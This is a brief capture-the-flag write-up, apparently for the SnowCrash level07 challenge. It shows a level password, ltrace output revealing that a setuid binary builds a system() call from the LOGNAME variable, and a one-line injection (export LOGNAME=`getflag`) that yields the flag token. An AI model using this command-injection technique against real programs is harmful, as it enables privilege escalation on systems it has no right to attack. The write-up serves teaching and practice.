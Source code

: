 ## Step 1: Login
`su level07`

**password:** wiok45aaoguiboiki2tuin6ub

## Step 2: Find flag

`ltrace ./level07`

```
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                                             = 2007
geteuid()                                                                                             = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                   = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                   = 0
getenv("LOGNAME")                                                                                     = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff4f, 0xb7e5ee55, 0xb7fed280)                                   = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                = 0
+++ exited (status 0) +++
```

```
export LOGNAME=\`getflag\`
```
> Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
